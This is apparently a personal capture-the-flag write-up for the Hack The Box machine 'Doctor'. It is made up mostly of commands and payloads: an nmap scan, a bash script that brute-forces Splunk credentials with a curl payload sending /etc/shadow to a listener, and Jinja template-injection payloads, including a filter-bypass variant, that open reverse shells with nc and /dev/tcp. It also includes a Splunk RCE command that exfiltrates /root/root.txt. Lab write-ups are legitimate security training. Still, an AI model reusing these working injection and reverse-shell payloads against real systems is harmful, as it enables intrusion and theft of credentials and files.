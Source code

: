 ```yaml
---
tags: [HTB]
title: Doctor
created: '2020-11-10T17:29:29.444Z'
modified: '2020-12-19T00:05:26.792Z'
---
```


# Doctor

- Perform NMAP scan on IP address

``` bash
root@kali:~/Downloads/hackthebox/doctor# cat nmap.txt 
# Nmap 7.80 scan initiated Tue Nov 10 12:20:42 2020 as: nmap -Pn -sV -p- -oN nmap.txt 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.11s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
8089/tcp open  ssl/http Splunkd httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- Looks like its running a web server on port 80
  - Apache version looks up to date (no exploit here) but might be something of interest in web page

- Searchsploit reveals authenticate splunk RCE
> Splunk RCE requires creds if not using default creds

- SSH looks up to date (nothing here)

``` bash
root@kali:~/Downloads/hackthebox/doctor# searchsploit  splunk
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
Splunk - Remote Command Execution                    | multiple/remote/18245.py
Splunk 4.1.6 - 'segment' Cross-Site Scripting        | multiple/remote/36246.txt
Splunk 4.1.6 Web Component - Remote Denial of Servic | multiple/dos/36247.txt
Splunk 4.3.1 - Denial of Service                     | multiple/dos/38038.txt
Splunk 4.3.3 - Arbitrary File Read                   | multiple/webapps/21053.txt
Splunk 5.0 - Custom App Remote Code Execution (Metas | multiple/remote/23224.rb
Splunk 6.1.1 - 'Referer' Header Cross-Site Scripting | php/webapps/40997.txt
Splunk < 7.0.1 - Information Disclosure              | linux/webapps/44865.txt
Splunk Enterprise - Information Disclosure           | multiple/webapps/41779.txt
Splunk Enterprise 6.4.3 - Server-Side Request Forger | multiple/webapps/40895.py
Splunk Enterprise 7.2.3 - (Authenticated) Custom App | windows/webapps/46238.py
Splunk Enterprise 7.2.4 - Custom App Remote Command  | windows/webapps/46487.py
----------------------------------------------------- ---------------------------------
Shellcodes: No Results


```

## Notes
- Running splunk Universal Forwarder on port 8089
- By default remote authentication with default credentials is not allowed
> however, if the username or password is changed and we know it then we can authenticate remotely
- Write custom bash script to essentially bruteforce executing the payload iterating the password each time untill the correct password is found.

- Write custom shell script to find creds for RCE 


```bash
#!/bin/bash

username=Admin

#------------Handles Flag Arguments--------
while getopts w:s:h:p:l: flag
do
    case "${flag}" in
        w) wordlist=${OPTARG};;
        s) script=${OPTARG};;
        p) port=${OPTARG};;
        h) host=${OPTARG};;
        l) localhost=${OPTARG};;
        #h) help=${OPTARG};;
    esac
done


#------------Check for arguments----------
if [ "$#" -lt 5 ]
  then
    echo "
                                    [-p Port]
                                    [-l Local host]
                                    [-h Remote host]
                                    [-s Script]
                                    [-w Password List]"
fi

#------------Read Word List-----------------
while read line;
do
        #echo "Trying Username:$username Password:$line"
        python $script --host $host --port $port --username $username --password $line --lhost $localhost --payload 'curl -F "data=@/etc/shadow" http://LocalIP:Port'                                                
                                                                                                             
done < $wordlist

```

- This script didn't work 
- Webpage shows an email addres info@doctors.htb
> This gives us a domain we can point to
> Update /etc/hosts to point to domain
- Brings us to a login page
  - We can register an account and post messages
  - Potentially SQL injection or XSS?
- Found a /archive page with dirbuster
- tried some simple template injection oayloads "{7*7}"
> returned 49 in /archive source code -  this tells me it is executing code
> fuzzing allows me to figure out this is jinja and not Smarty etc

## Jina Template Injection
- Inject command into title of message
  - View source of archive page http://doctors.htb/archive and code will have been executed



```js
{{request.application.__globals__.__builtins__.__import__('os').popen('nc -e /bin/bash 10.10.14.162 1234').read()}}
```
```js
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
- tried these but they didn't work
```js
# evil config
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} 
# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  
# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.162/1234 0>&1"',shell=True) }}

```
- This might have worked but this filter stopped it

- Needed to bypass blacklist filter of ``` "/ | . _ ' ```
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

```js
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
- This command worked
- After some enumeration i found multiple versions of nc to get reverse shell
  - Usual nc did not work but found nc.openbsd
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat
- Found payload to get reverse shell with openbsd of nc

```js
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('/usr/bin/nc.openbsd rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.98 1234 >/tmp/f')|attr('read')()}}

```
- Got reverse shell from paylaod
- Ran Linpeas and linux exploit suggester which did not return anything for priviledge escalation tactics
- sudo -L returned nothing
- Knew i needed creds for splunk RCE 
> enumeration found a backup file which is not normally found in apache2 directory - a quick grep of the file found a juicy password 
- Using su i switched to the Shaun user to test the password i found which worked!!

```bash
cat /var/log/apache2/backup | grep password


10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

```

- Splunk RCE for priviledge escalation 
- Splunk is running at root so can access /root directory

``` bash

python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.15.26  --username shaun --password Guitar123 --payload "curl -F 'data=@/root/root.txt' http://10.10.15.26:1234"


```



